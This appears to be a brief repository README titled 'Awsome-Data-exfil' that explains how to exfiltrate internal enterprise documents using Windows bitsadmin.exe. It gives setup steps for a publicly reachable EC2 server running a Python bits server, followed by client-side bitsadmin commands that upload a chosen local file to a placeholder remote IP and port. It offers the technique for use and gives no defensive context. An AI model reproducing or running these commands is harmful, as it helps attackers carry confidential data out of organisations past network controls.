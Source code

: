 # Awsome-Data-exfil
Data exfiltration with Bitsadmin.exe

############################################################################


Bitsadmin command to exfiltrate internal data outside the enterprise network

--------------------------------Server-side----------------------------------------------


First things first: Set up an EC2 instance or any server publicly accessible on which python should be installed. Dowmload the python implementation of bitsadmin server.
Host the server on the EC2 instance with command like <python simplebitsServer.py 443>


--------------------------------Client-side----------------------------------------------


bitsadmin /setproxysettings Job PRECONFIG
Bitsadmin /Transfer JOB /PRIORITY HIGH /UPLOAD hxxp://<remoteIP/URL>:<port> C:\User\<path to internal document to exfiltrate>

